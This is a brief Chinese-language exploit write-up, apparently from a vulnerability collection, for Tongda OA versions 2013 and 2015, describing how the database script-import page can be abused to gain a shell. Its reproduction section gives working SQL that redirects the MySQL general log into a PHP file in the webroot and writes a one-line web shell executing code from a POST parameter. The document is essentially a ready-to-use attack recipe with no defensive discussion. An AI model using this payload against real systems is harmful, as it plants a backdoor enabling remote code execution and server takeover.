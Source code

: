 ## 通达oa 数据库脚本导⼊getshell

### 漏洞影响

2013、2015版本

### 复现过程

⾥面的database⻚面可以导入sql脚本文件,但是系统过滤了很多,有很多的限制,使⽤mysql日志的方式进行 突破。

```sql
set global general_log = on;
set global general_log_file = '../webroot/test.php';
select '<?php assert($_POST[a]) ?>';
set global general_log = off;
```